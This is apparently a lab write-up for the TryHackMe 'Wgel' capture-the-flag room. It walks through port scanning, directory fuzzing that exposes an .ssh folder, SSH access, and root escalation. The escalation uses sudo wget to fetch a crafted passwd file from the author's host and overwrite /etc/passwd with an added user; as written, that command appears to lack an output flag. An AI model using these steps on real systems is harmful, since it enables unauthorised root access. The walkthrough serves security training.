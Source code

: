 # Wgel

![image](https://user-images.githubusercontent.com/5285547/129208041-00185729-3d6d-4201-96c2-2f5b4290788b.png)

Room link: https://tryhackme.com/room/wgelctf

## Enum

Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Port 80

On the main page is the default apache home page, in the source code of the page i noted a strange entry.

![image](https://user-images.githubusercontent.com/5285547/129208602-3b5d53b2-0177-402b-9980-ff5298d0692c.png)

Directory brute forcing

```
ffuf -u http://10.10.210.172/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 403 -ic 

sitemap                 [Status: 301, Size: 316, Words: 20, Lines: 10]
```

![image](https://user-images.githubusercontent.com/5285547/129208772-2a5bf93d-f9fb-4222-886a-53b1848efc92.png)

fuzzing sitemap shows an .ssh dir 

```
ffuf -u http://10.10.210.172/sitemap/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -fc 403 -ic

index.html              [Status: 200, Size: 21080, Words: 1305, Lines: 517]
contact.html            [Status: 200, Size: 10346, Words: 500, Lines: 287]
.                       [Status: 200, Size: 21080, Words: 1305, Lines: 517]
about.html              [Status: 200, Size: 12232, Words: 684, Lines: 313]
blog.html               [Status: 200, Size: 12745, Words: 738, Lines: 313]
services.html           [Status: 200, Size: 10131, Words: 543, Lines: 288]
shop.html               [Status: 200, Size: 17257, Words: 715, Lines: 448]
.ssh                    [Status: 301, Size: 321, Words: 20, Lines: 10]
work.html               [Status: 200, Size: 11428, Words: 574, Lines: 329]
```

![image](https://user-images.githubusercontent.com/5285547/129209591-5161d2cd-03b5-4d23-9956-cab5769ac146.png)

---

## User

Using this and the username we found we can ssh onto the machine as jessie and get the user flag. 

![image](https://user-images.githubusercontent.com/5285547/129209802-26f843ae-8a53-40a3-bfc5-568861b17fe9.png)
![image](https://user-images.githubusercontent.com/5285547/129210363-46f4e0ff-9432-42a7-90ba-1247daf63fdb.png)

---

## Root

Checking sudo -l shows us wget can run as root with no password. 

![image](https://user-images.githubusercontent.com/5285547/129210492-898374e2-5cc4-4b3d-a41e-10c22e724baa.png)

I checked GTFObins to see what could help and thought we can overwrite /etc/passwd with a new user. 

So cat out /etc/passswd and make a copy then add a new user at the end of the file after making a new password. 

```
openssl passwd -1 -salt PwNeD pass123
$1$PwNeD$/XBKVYADYvAq/cezsMbwD.
```


Now host the file and use wget to overwrite the origianl 

```
sudo /usr/bin/wget http://10.8.153.120/passwd /etc/passwd
```

![image](https://user-images.githubusercontent.com/5285547/129212909-f06e3601-e67e-481d-b6fb-b96a0e1635ef.png)

Then we change user with our new password and grab the last flag. 

![image](https://user-images.githubusercontent.com/5285547/129213080-853b473e-9170-445f-9adb-c3bcf60922cf.png)

